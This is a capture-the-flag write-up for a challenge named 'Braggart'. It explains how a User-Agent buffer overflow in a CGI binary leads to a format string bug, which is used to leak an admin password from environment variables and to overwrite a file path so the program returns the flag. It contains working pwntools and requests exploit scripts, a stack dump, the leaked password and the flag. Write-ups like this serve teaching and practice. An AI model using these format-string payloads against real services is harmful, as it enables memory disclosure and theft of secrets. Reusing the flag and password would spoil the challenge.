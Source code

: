 # Braggart

For this challenge, a binary and an URL were provided:

![web](./img/web.png)

```bash
$ file sec.bak
sec.bak: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=938da16dc1750d2efaaf4a3abc0e70ea1dea0020, for GNU/Linux 3.2.0, not stripped
```

Analysing the binary, we can spot some vulnerabilities and hidden features:

![main](./img/main.png)



The main function check for an "X-PASSWORD" header and compare its value to the environnement variable "AdminPass", if it's equal, it call the printSecret functions, otherwise, printMain is called.

The main function show that a debug feature can be triggered by passing the "X-DEBUG" header value to 1 when performing HTTP request.
This function prints remote IP address and User Agent information when called.

A buffer overflow can be spotted in the printDebug function:

![debug](./img/debug.png)

Indeed, the value of the User-Agent header is copied without size control. Since stack cookie is present, we cannot overwrite the return address, let's see what we can do.
The following command line is used to debug the program:

```bash
$ QUERY_STRING=TEST REQUEST_METHOD=GET HTTP_X_DEBUG=1 AdminPass=test HTTP_X_PASSWORD=notpassword CONTENT_LENGTH=40 workingDir=/home/ctf/
REMOTE_ADDR=1.1.1.1 HTTP_USER_AGENT=chromium gdb ./sec.bak ; echo
```

A breakpoint is set to the second strcpy call:
![bp](./img/bp.png)

```bash
pwndbg> x/200gx 0x7fffffffd4c0
0x7fffffffd4c0:	0x00312e312e312e31	0x0000000000000000
...
0x7fffffffd860:	0x0000000000021000	0xb21f90d4859a1100 <-- canary
0x7fffffffd870:	0x000000000000060f	0x0000000000000290
0x7fffffffd880:	0x00007ffff7df6c80	0x0000000000000280
0x7fffffffd890:	0x0000000000000029	0xffffffffffffffc0
0x7fffffffd8a0:	0x00007ffff7df6ce0	0x00007ffff7c9eb80
0x7fffffffd8b0:	0x0000000000007325	<--- format
0x7fffffffd8c0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8d0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8e0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8f0:	0x0000000000000000	0x0000000000000000
```
Some .text address, the stack cookie value AND, the format used to print out the User-Agent data are present on the stack. That means that the buffer overflow can be used to trigger a format string bug vulnerability.
Such a bug will be usefull to leak memory and overwrite some locations.

For example, the stack can be read using the leak.py script:

```python
from pwn import *
import requests
import sys

url = "https://nessus-braggart.chals.io/sec.cgi"

for i in range(int(sys.argv[1]),int(sys.argv[2])):
    index = bytes(str(i),'utf-8')
    header = {"User-Agent":cyclic(1008)+b"%"+index+b"$"+bytes(sys.argv[3],'utf-8'),"X-DEBUG":"1"}
    r = requests.get(url, headers=header)
    if "Internal Server Error" in r.text:
        log.info("Fail to read offset")
        continue
    res = r.text.split("User Agent : </h3>")[1].split("</pre>")[0]
    print(res)
```
(script has been improoved later :D)
The password is obtained by leaking environnement variables:

![leak](./img/leak.png)

Let's get the flag !

![nottheflag](./img/nottheflag.png)

... Let's analyse the printSecret function:

![secrets](./img/secrets.png)

The full path which is opened is build in two parts, first, the program get the workingDir environnement variable, then concat the word "brag" to it.

Since we control a format string bug, it is possible to overwrite "brag" with "flag" and get the flag !

To perform such an exploit, the "brag" string pointer offset is needed, let's fuzz again but withing the "printSecret" function (which call the printDebug and trig the overflow).

```
...
260 -> (null)
261 -> (null)
262 -> (null)
[*] Fail to read offset
264 -> À9°ý\x7f                                        \x05Y\x0b
266 ->
267 -> brag
268 -> /home/ctf/
269 ->
```

String "brag" is identified at offset 267. Now, the only thinkg to do is to overwrite 2 bytes "br" with "fl", and the final path will be /home/ctf/flag.

```python
from pwn import *
import requests

url = "https://nessus-braggart.chals.io/sec.cgi"

password = "xbYP3h7Ua94c" # This was added after fuzzing

header = {"User-Agent":cyclic(1008)+b"%27750x%267$hn","X-DEBUG":"1","X-PASSWORD":password} # 27750 -> '0x6c66' --> lf
r = requests.get(url, headers=header)
print(r.text)
```
```
flag{f0rmat_th3m_str1ngz}
```


